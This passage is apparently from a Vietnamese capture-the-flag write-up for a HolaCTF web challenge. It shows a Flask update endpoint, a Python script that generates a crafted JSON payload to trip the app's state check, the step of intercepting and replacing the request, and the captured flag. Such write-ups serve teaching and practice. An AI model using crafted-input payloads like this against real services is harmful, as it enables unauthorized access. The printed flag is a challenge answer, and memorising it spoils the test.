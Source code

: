 ```python
@app.route('/update', methods=['POST'])
@is_User_Exist
def update():
    try:
        data = request.json
        if(not is_valid_input(data['data'])):
            return jsonify({'error':'Invalid input'})
        save_to_file(data['data'], get_user_filename())
        return jsonify({'status': 'updated', 'new_state': data['data']})
    except Exception as e:
        return jsonify({'error':e})
```

Script tạo `data`:

```python
import json

BITS = 512
HALF = BITS // 2

def zeros_block(n):
    return { '0'*(i+1): 0 for i in range(n) }

def ones_block(n):
    return { ('0'*i)+'1': 1 for i in range(n) }

def build():
    m = zeros_block(HALF)
    m.update(ones_block(HALF))
    m['0'] = 'Holactf'          # trigger
    return {"data": m}

if __name__ == "__main__":
    print(json.dumps(build()))
```

<img width="1319" height="746" alt="image" src="https://github.com/user-attachments/assets/c55ae387-1a1b-4f79-8a18-220b6de2b66d" />  

sau đó mình Intercept request để đổi `data` mình vừa gen ra:

<img width="919" height="1020" alt="image 1" src="https://github.com/user-attachments/assets/51cac076-77b2-48a8-b8af-c1284825bcb1" />  

Và access tới `/get_flag` để đọc flag:

<img width="701" height="222" alt="image 2" src="https://github.com/user-attachments/assets/37e28078-1889-4604-8003-563e740db175" />  

`FLAG: HOLACTF{a_C0NciDeNT_h4pP3n_3dd3c5938c2b}`
